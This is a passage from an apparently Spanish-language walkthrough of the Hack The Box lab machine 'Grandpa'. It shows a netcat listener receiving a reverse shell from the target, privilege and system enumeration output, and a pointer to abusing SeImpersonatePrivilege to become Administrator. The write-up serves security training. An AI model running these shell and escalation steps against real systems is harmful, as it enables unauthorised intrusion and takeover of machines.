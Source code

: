 Obtenemos acceso a la máquina víctima

```
# nc -nlvp 4444       
listening on [any] 4444 ...

connect to [10.10.16.16] from (UNKNOWN) [10.129.95.233] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
## Privilege escalation

`Listamos privilegios` de nuestro usuario y nos damos cuenta de que tenemos el privilegio `SeImpersonatePrivilege` por lo tanto podemos convertirnos en `Administrator` [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege)

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

`Listamos` información del `sistema` para ver a que `versión` de `windows` nos estamos enfrentando

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANDPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 4 Hours, 53 Minutes, 8 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
```